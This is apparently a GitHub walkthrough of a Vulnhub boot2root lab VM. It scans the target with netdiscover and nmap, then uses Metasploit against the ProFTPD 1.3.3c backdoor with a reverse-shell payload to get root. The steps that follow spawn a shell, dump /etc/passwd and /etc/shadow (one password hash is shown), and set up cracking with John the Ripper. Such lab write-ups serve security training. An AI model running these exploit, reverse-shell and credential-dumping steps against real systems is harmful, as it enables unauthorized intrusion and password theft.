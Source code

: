 |---|---|
|:---|:----|
| Category: |	Small boot2root VM |
|Platform: |	Vulnhub |
|Vulnerability: | Fpt |
|End Goal: |	Get root |
|Tool: | nmap,searchsploit, msfconsole |
|Tag:	| #ProFTPD 1.3.3c exploit |

## Pennetration Methodologie
- Scan the target
  - Find target's IP
  - Nmap scan
- Enumeration
  - FTP vuln scan
  - Searchsploit
- Exploit
  - Exploit ProFTPD 1.3.3c
  - Get root
## Walkthrough
### Scanning
- Firstly I find the target’s IP by using **netdiscover** tool, we can easily find ip of the victim machine
```
┌──(root㉿kali)-[/home/kali]
└─# netdiscover -i eth0 -r 192.168.44.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts                                                               17 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 1020                                                           
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.44.2    00:50:56:f2:22:8b      6     360  VMware, Inc.                                                                    
 192.168.44.1    00:50:56:c0:00:08      1      60  VMware, Inc.                                                                    
 192.168.44.130  00:0c:29:0e:97:6e      8     480  VMware, Inc.                                                                    
 192.168.44.254  00:50:56:e3:25:b0      2     120  VMware, Inc.
```
Target: **192.168.44.130** 
- Let's continue with **Nmap** scan.
```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -Pn -T4  192.168.44.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 17:24 EDT
Nmap scan report for 192.168.44.130
Host is up (0.00088s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:0E:97:6E (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.12 seconds
```
From this we can see the following ports and services:
- 21/tcp open  ftp     ProFTPD 1.3.3c
- 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
- 80/tcp open  http    Apache httpd 2.4.18
Check http servive
![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/26e3bb4b-1690-4ca9-8e12-d8085bc0bbea)
Nothing here. Scan Web with nikto
### Enumeration
#### FTP vuln scan
Use Nmap vuln scan to find scan ftp service 
```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -Pn -T4 --script=vuln -p 21 192.168.44.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 17:35 EDT
Nmap scan report for 192.168.44.130
Host is up (0.0018s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
| ftp-proftpd-backdoor: 
|   This installation has been backdoored.
|   Command: id
|_  Results: uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
```
From the result, there are a FTP vulnerability. we can exploited: **ftp-proftpd-backdoor**
## Exploit FPT exploit
The frist I use **searchexploit** to find the way exploit ftp.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/08a13c0c-4031-4e9d-862d-2545d9e4d2e3)

I find the the way to exploit by using metasploit. Start **msfconsole** and set options to exploit.
```
msf6 > search ProFTPD 1.3.3c
msf6 > use 0
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show options
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set RHOSTS 192.168.44.130
RHOSTS => 192.168.44.130
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show payloads
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set payload payload/cmd/unix/reverse
payload => cmd/unix/reverse
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set LHOST 192.168.44.20
LHOST => 192.168.44.20
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > exploit
```
When exploit successful, you get a shell. Using command **python -c 'import pty;pty.spawn.("/bin/sh")'**

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/b1e4821a-5a7b-4616-8b5f-188601268040)
Using command **id** to get current user'IP.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/7894b801-a967-4fdb-a3a6-f14ae862c5fd)

Dump file /etc/passwd and /etc/shadow
```
echo "marlinspike:$6$wQb5nV3T$xB2WO/jOkbn4t1RUILrckw69LR/0EMtUbFFCYpM3MUHVmtyYW9.ov/aszTpWhLaC2x6Fvy5tpUUxQbUhCKbl4/:17484:0:99999:7:::" >> shadow.txt

echo "marlinspike:x:1000:1000:marlinspike,,,:/home/marlinspike:/bin/bash" >> passwd.txt

```
So we can crack it with **john the ripper**.



